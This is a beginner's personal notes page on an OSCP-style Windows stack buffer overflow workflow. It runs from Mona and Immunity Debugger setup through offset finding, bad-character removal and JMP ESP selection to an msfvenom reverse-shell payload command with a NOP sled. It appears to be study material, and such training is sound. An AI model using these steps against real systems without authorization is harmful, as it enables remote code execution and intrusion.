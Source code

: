 <h2>Starting from setting up and environment with Mona and Immunity Debugger.</h2>

<h3>SettingUp an Config with Mona.</h3>
<p> I am just a noob, i am writing this for myself to be able to understand the step to reprodcue error throughly but it's not something you jump right away becasue you will not even get the basics of it if you don't know what is <em> PYTHON, ImmunityDebugger, MetaSploit frameoork, Little bit of Assembly and How stack or Registers work while running a program. </em></p>
<ul></ul>
<li>In the bottom of the Immunity Debugger, we need to set the Config for Mona so that we can be able to Analysis Bytearray later which may comes handy while finding bad chars.</li>
<code><em>!mona config -set workingfolder C:\mona\oscp\</em></code>
Now, we have set the Configuration to that folder so while comparing later with esp, we will have to take care of this.

<li>Keep the fuzzing going on and notice the Bytes at which it gets crashed???? :It is helpful while creating pattern:</li>
<h3>Finding the offset.</h3>
<li>Create a pattern with <code>Pattern_create.rb -l CRASHEDBYTE </code>which is probably inside metasploit-framework</li>
<li>We got the pattern now we need to insert it into exploit in order to Figure out it's OFFSET </li>
<li>We can either find offset via  <code><em>!mona findmsp -distance CRASHEDBYTE</em></code> Or with Pattern_offset.rb -l CRASHEDBYTE -q ValueInEIP</li>
<li>Now we know the offset so put it inside the Exploit and we can also keep RTN as BBBB to reflect it in the Register.</li>
<h3>Finding the Bad Chars.</h3>
<li>Run the BADCHARS, (You can exclude \x00)and keep that payload to exploit in the the place of payload and set the Byte array for mona to <code><em>!mona bytearray -b "\x00" </code> First with  \x00. Remember we set the config at the begining? So the bytearray.bin is stored inside that config and we need that.</em></li>
<li>Watch out the MONA COMPARISON, and see the bad chars.</li>
<li>REPEAT: Iterate it while erasing the BadChars from the Exploit and Including the badchars in !mona bytearray, Remember that most of the time it's sequential and the early index is most of the times a bad chars. </li>
<li>COMPARE CODE: <code>!mona compare -f c:\mona\oscp\bytearray.bin -a esp</code></li>
<li>Iterate above till we get the MonaComparison Status to Unmodified.</li>
<h3>Finding the Right Return address</h3>
<em>Because whenever a function is called then, what to execute after the function has done it's part is stored in the returned address so basically next instruction?</em>
<li>Call it either finding a JMP state or Return address, we can find it via</li>
<li><code><em>!mona jmp -r esp -cpb "x\00\xALLTHEBADCHARSYOUFOUND.</em></code></li>
<li>See the Log data results and keep one JMP Esp 0x00 Addresss for later use.</li>
<li>If the address is suppose, 0x1129AF, then there comes Big Endian and Little Endian so </li>
<li>Manage the exploit.py with Return Address in the rtn variable but in different format like this: "\xAF\x29\x11" probably as a LSB perspective right?</li>
<h3>Generating the Payload shellcode.</h3>
<li>Now is the time to generate Payload so BADCHARS comes here to...</li>
<code><em>msfvenom -p windows/shell_riverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00\xALLTHEBADCHARS" -f c </code>or you can use py too</em>
<li>You get the shellcode now manipulate the Exploit payload with the Generated and make sure to use the string inside ("") if it's format c and in such a way that there should be, OFFSET, RETN, PADDING = "\x90" * 16 <u>No Operation because it's a bad practice to run the shellcode instantly so we are using No operation to skip for a while.</u></li>
<li>Leave the PostFix as it is or give something as it doesn't really matter.</li>
<h3>Exploit</h3>
<li>You are good to go now. :wink:</li>
<li>There may comes some error but someone who has came this far will figure out how to solve it.</li>
